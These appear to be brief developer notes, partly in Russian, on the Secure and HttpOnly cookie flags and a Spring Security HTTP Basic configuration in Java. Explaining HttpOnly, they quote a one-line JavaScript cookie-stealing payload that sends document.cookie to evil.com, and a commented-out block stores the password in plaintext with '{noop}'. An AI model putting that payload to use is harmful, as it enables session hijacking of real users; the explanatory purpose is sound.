 - set cookie `Secure` (protects from man in the middle)
- `HttpOnly` недостуна из JavaScript. Защищает от атак `(new Image()).src = "http://evil.com/steal-cookie.php?cookie=" + document.cookie;`

```Java
    @Value("${spring.security.user.name}")
    private String username;

    @Value("${spring.security.user.password}")
    private String password;

    @Override
    public void configure(HttpSecurity http) throws Exception {
        http.authorizeRequests()
            .antMatchers("/**")
            .authenticated()
            .and().httpBasic(httpSecurityHttpBasicConfigurer -> {
                httpSecurityHttpBasicConfigurer.authenticationEntryPoint(new AuthExceptionEntryPoint());
            });
    }
// можно самим задать inMemoryAuth,
// можно проперти spring.security.user.name, spring.security.user.password прописать без этого закомментированного кода
//    @Autowired
//    public void configureGlobal(AuthenticationManagerBuilder auth) throws Exception {
//        auth.inMemoryAuthentication()
//            .withUser(username)
//            .password("{noop}" + password)
//            .authorities("ROLE_USER");
//    }
```
